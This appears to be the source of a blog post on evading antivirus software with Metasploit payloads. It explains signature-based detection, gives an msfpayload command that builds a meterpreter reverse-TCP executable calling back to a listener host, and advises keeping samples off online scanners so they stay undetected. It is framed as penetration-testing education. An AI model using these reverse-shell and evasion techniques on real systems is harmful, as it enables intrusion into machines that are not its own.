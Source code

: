 ```yaml
---
layout: post
title: "Notes on Anti-virus Evasion"
excerpt: "反病毒软件调戏笔记: 如何使用metasploit项目的shellcode且不被反恶意软件查出"
category: exploit
tags: [anti-virus]
disqus: true
---
```

{% include JB/setup %}

Ok, This article is about why and how can you bypass antivirus softwares when you are using metasploit payloads. First of all, I'd like to emphasize the following things:

1. Don't be stupid. Do anything at your own risk.
2. There is nothing too hard to learn. If you find something really hard to understand. [Try harder](http://www.offensive-security.com/when-things-get-tough/), you may lack of some necessary requirements, please refer to References section yourself. 
3. There are lots of Unix tools to use for linux, so I use gentoo linux as my experiment environment. You can use anything you like.
4. I'm not a native English speaker, but I hope this article is interesting and useful to many non-Chinese speakers. So I write every word in a language I'm not familiar. The article may full with grammer mistakes, but you can understand what I'm saying is enough. Happy hacking.
5. Last but not least, Never upload your samples to a online scanner website like virustotal or so if you are a penetration tester and want to use your payload later. Check it on your local machine. you can alse try [novirusthanks](http://vscan.novirusthanks.org/) with `Do not distribute the sample` marked.

## Theory: How Antivirus software works

### Signature-based Detection

Why can you bypass AV detection? There won't much way for AV vendors to decide whether a software is a normal program or a malware. They have 3 main ways, the most popular method it use to scan malwares is based on signature. AV engines scan the whole program to find something in accordance with the kown 'bad strings' in malwares. Once 'bad strings' being found, the program will be flagged as a malware.

You will soon see it is so. Lets take [Avast!](http://www.avast.com/) free edition as example. I do all my test on my linux machine, but you can do anything as you like.

First, Let's use a `windows/meterpreter/reverse_tcp` payload from [Metasploit](http://metasploit.com/). It will provide a reverse meterpreter shell to a remote computer for the hackers.

    ~/metasploit-framework/msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.56.102 X > payload.exe

Start a listenner and assert it really works
    
    wine payload.exe

However, Avast! will find its a malware! Moreover, even when you open the file explorer, the payload will be found before any scan.


[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s